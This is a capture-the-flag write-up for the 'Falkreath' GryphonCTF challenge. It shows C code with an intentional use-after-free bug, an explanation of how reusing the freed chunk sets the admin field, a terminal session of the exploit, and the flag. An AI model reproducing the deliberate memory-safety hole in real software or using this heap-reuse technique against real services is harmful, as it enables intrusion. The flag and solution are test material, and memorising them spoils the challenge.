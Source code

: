 # Falkreath

## Question Text

What is this useless service?

`nc pwn.chal.gryphonctf.com 18403`

*Creator - PotatoDrug*

## Setup Guide
Run `./build.sh`

## Distribution
- Falkreath.c
    - SHA1: `917903dfd0e9a01ad658bacb5ba1e5b6b6e700d3`
    - Source code

## Solution
The service is vulnerable to Use After Free exploit.

As you can see from the code below, after allocating memory to userptr with `login` we can free the memory using `logout` which allows us to use `prompt` to allocate data where `32 < len(data) < 39` to the freed memory so that `isadmin` is not zero. This works because `userptr` is still pointing to the address even though the memory is freed and `strdup` uses malloc.
```c
if(strncmp(line, "login ", 6) == 0) {
  userptr = calloc(1, sizeof(struct user)); // allocates 36 bytes (32+4) from the heap
  if(strlen(line + 6) < 31) {
      strcpy(userptr->name, line + 6);
  }
} else if(strcmp(line, "logout\n") == 0) {
  free(userptr);
} else if(strncmp(line, "prompt ", 7) == 0) {
  prompt = strdup(line + 7);
  prompt[strcspn(prompt, "\r\n")] = 0;
} else if(strcmp(line, "getflag\n") == 0) {
  if (userptr != NULL) {
    if(userptr->isadmin) {
      printf("Flag: %s\n", getenv("FLAG"));
      return 0;
    } else {
      printf("Not admin!\n");
    }
  } else {
    printf("Please login first!\n");
  }
}
```

```
➜ nc 127.0.0.1 18000
___________        .__    __                              __   .__                                        
\_   _____/_____   |  |  |  | _________   ____  _____   _/  |_ |  |__                                     
 |    __)  \__  \  |  |  |  |/ /\_  __ \_/ __ \ \__  \  \   __\|  |  \                                    
 |     \    / __ \_|  |__|    <  |  | \/\  ___/  / __ \_ |  |  |   Y  \                                   
 \___  /   (____  /|____/|__|_ \ |__|    \___  >(____  / |__|  |___|  /                                   
     \/         \/            \/             \/      \/             \/                                    
Not logged in
>login bob
User: bob

>logout
User:
>prompt AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
User: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgetflag
Flag: GCTF{WH47_4_he4pPie_EXPL0I7}
```

[Sample Solution](solution/solve.py)

### Flag
`GCTF{WH47_4_he4pPie_EXPL0I7}`
